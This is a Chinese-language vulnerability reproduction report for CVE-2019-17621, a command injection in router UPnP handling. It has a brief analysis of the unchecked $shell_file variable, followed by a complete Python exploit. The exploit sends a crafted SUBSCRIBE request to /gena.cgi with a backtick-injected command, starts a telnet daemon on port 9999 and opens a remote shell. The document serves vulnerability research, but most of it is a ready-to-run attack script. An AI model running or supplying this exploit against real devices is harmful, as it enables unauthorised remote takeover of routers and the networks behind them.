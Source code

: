 





# 漏洞分析

```php
fwrite(a, $shell_file, "rm -f ".$shell_file."\n");
```

因为上述语句不对$shell_file进行检查，可以使用反引号构造特殊的$shell_file，实现命令注入，简例如下

![image-20230409135522576](CVE-2019-17621复现报告/image-20230409135522576.png)



# exp

```python
#!/usr/bin/python3

import socket
import os
from time import sleep

def pwn(ip, port, cmd):

    print('\n[*] Connection {host}:{port}'.format(host=ip, port=port))

    shell_file = '`' + cmd + '`'

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    #根据分析的结果构造报文来绕过检查
    request  = "SUBSCRIBE /gena.cgi?"
    request += "service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(ip) + str(port) + "\n"
    request += "Callback: <http://127.0.0.1/>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1000\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"

    print('[*] Sending Payload')
    sleep(1)

    sock.connect((socket.gethostbyname(ip), port))
    sock.send(request.encode())

    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(ip) + ' 9999')


IP = "192.168.0.1"
port = 49152

pwn(IP, port, 'telnetd -p 9999 &')
```
